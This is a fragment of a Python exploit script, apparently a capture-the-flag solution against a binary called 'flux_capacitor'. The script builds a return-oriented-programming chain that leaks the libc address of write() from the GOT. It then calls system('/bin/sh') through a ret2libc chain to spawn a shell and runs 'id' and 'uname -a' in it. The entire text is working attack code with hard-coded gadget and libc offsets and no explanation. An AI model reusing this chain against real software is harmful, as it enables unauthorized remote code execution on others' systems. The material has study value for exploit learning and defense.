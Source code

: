 ```python
pop_rsi = 0x400951              # pop rsi; pop r15; ret 
write_plt = 0x400510            # Address of write in PLT
write_got = 0x600fd0            # Address of write in GOT
main = 0x00400684               # main() (Return after first run)

buf += struct.pack('<Q', pop_rsi)
buf += struct.pack('<Q', write_got)     # POP-ed into RSI (2nd parameter to write)
buf += struct.pack('<Q', 0x41414141)    # POP-ed into R15 
buf += struct.pack('<Q', write_plt)     # Call this
buf += struct.pack('<Q', main)          # ret after write

# We need to supply all 0x100 bytes expected by read
buf += b'A' * (read_buf_len - len(buf))
print("[*] Sending %d (0x%x) bytes (first iteration)" % (len(buf), len(buf)))

io.send(buf)

recv_buf = io.recvrepeat(3)
#print(recv_buf)

print("[*] Received %d (0x%x) bytes" % (len(recv_buf), len(recv_buf)))
leak_write_addr_str = recv_buf.split(b'not work..\n\n\x00')[1][:8]
leak_write_addr = struct.unpack('<Q', leak_write_addr_str)[0]
print("[*] Leaked write() address: 0x%016x" % leak_write_addr)

# Phase 2 - Ret2Libc
# Spawn a shell

write_offset = 0xFB0D0          # Offset to write() in libc 
libc_base = leak_write_addr - write_offset
print("[*] Libc base address: 0x%016x" % libc_base)

bin_sh = libc_base + 0x199031   # /bin/sh in libc.so.6
system = libc_base + 0x4f330    # system() in libc.so.6

pop_rdi = 0x400953              # POP RDI (in flux_capacitor)
nop_ret = 0x400954              # RET (in flux_capacitor)

buf  = b'B' * offset
buf += struct.pack('<Q', nop_ret)
buf += struct.pack('<Q', nop_ret)
buf += struct.pack('<Q', pop_rdi)
buf += struct.pack('<Q', bin_sh)
buf += struct.pack('<Q', system)

buf += b'B' * (read_buf_len - len(buf))

# Second iteration
print("[*] Sending %d (0x%x) bytes (2nd iteration)" % (len(buf), len(buf)))
io.send(buf)
recv_buf = io.recvrepeat(3)
#print(recv_buf)

# Execute some commands in the shell
buf = b''

cmds = b'\x0aid\x0auname -a\x0a'
buf += cmds

io.send(buf)
recv_buf = io.recvrepeat(2).decode("utf-8") 
print(recv_buf)

```